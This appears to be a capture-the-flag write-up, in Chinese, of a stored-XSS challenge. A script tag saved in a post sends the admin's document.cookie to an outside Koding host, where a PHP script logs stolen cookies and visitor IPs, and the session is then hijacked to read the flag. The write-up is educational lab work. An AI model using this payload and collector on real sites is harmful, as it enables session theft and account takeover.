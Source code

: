 # secure_page_service
這是一個類似部落格的網站，你可以創造文章，然後用密碼鎖起來，flag藏在某個被密碼鎖住的文章裡。
 * 看一下網頁source code，實際創帳號嘗試後，收集到的線索：
  1. 只有admin可以不需要密碼就能看文章，如果能得到他的session_id就能搶到flag
  2. 網站有persistent XSS漏洞：沒有過濾輸入是否是HTML程式碼就存到資料庫裡，然後直接顯示出來
  3. 回報問題，不久admin會來察看你的文章！！
那要怎麼偷呢？
 * 注意到2.讓我們可以把javascript程式碼存到資料庫裡，並且讓這段程式在看文章時執行，所以用javascript取得瀏覽者的cookie，並且將cookie傳送到另一個準備好的網站去。像這樣：
```
</div>
<script>location.href=("http://ulkk1c611e83.lubebul.koding.io/php.php?cookie="+document.cookie)
</script>
```
 * 準備的那個網站，我架在免費雲端平台Koding上，只要把cookie給存下來就偷到囉：
```
<?php
$cookie = $_GET['cookie'];
$userip = getenv('REMOTE_ADDR');
$file = '/home/lubebul/Documents/cookies.txt';
$fout = fopen($file, 'a') or die("cannot create file");
fwrite($fout, 'from ip = '.$userip.', get cookie: '.$cookie);
fclose($fout);
echo "I've stolen your cookie! Hehe~";
?>
```
 * 記得要給文章設密碼，然後回報問題等admin上當
 * 最後在用瀏覽器外掛，編輯cookie的值，成功取得
 Flag: wow_cross_site_scripting_is_such_web
